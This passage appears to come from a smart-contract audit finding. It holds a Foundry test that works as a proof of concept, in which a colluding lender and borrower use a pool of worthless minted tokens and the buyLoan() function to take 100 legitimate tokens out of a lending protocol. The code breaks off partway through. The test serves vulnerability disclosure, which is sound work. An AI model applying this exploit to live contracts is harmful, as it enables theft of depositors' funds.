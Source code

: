 At the end lender1 and borrower maliciously extract 100 tokens from the protocol.

```solidity
// File: test/Lender.t.sol:LenderTest
// $ forge test --match-test "test_buyLoan_using_different_tokens" -vvv
//
   function test_buyLoan_using_different_tokens() public {
        // Lender and borrower maliciously can extract value from the protocol using a malicious pool with tokens that may be worth nothing.
        // 1. Lender1 (malicious actor) creates the pool with initial 1000 token balance. Borrower (malicious actor) borrows 100 token debt.
        // 2. Attacker creates his pool using malicious tokens (tokens that may be worth nothing).
        // 3. Lender1 (malicious actor) kicks off the auction.
        // 4. The Attacker call the buyLoan() function using his malicious pool.
        // 5. The Lender1 (malicious actor) pool has the loaned amount + interests. Lender1 (malicious actor) can withdraw all his pool balance money..
        // 6. The malicious pool has the debt. 1000 initial pool balance - 100 debt tokens - borrow interests.
        //    The `lender1` (malicious actor) withdraw his initial deposit (1000 legitimate tokens).
        //    The `borrower` (malicious actor) does not repay the debt (100 legitimate tokens).
        //    The malicious pool has the debt with custom (malicious) tokens that may be worth nothing.
        //
        address attacker = address(1337);
        TERC20 maliciousLoanToken = new TERC20();
        TERC20 maliciousCollateralToken = new TERC20();
        maliciousLoanToken.mint(address(attacker), 100000*10**18);
        maliciousCollateralToken.mint(address(attacker), 100000*10**18);
        //
        // There are others pools who deposit to the protocol
        vm.startPrank(lender2);
        Pool memory lender2Pool = Pool({
            lender: lender2,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 100*10**18,
            poolBalance: 1000*10**18,
            maxLoanRatio: 2*10**18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        lender.setPool(lender2Pool);
        //
        // 1. Lender1 (malicious actor) creates the pool with initial 1000 token balance. Borrower (malicious actor) borrows 100 token debt.
        //
        test_borrow();
        bytes32 poolIdLender1 = lender.getPoolId(lender1, address(loanToken), address(collateralToken));
        (,,,,uint256 poolBalance,,,,) = lender.pools(poolIdLender1);
        // assert loan debt and pool balance
        assertEq(lender.getLoanDebt(0), 100*10**18);
        assertEq(poolBalance, 900 * 10**18);
        //
        // 2. Attacker creates his pool using malicious tokens (tokens that may be worth nothing).
        //
        // attacker creates his pool
        vm.startPrank(attacker);
        maliciousLoanToken.approve(address(lender), 1000000*10**18);
        maliciousCollateralToken.approve(address(lender), 1000000*10**18);
        Pool memory maliciousPool = Pool({
            lender: attacker,
```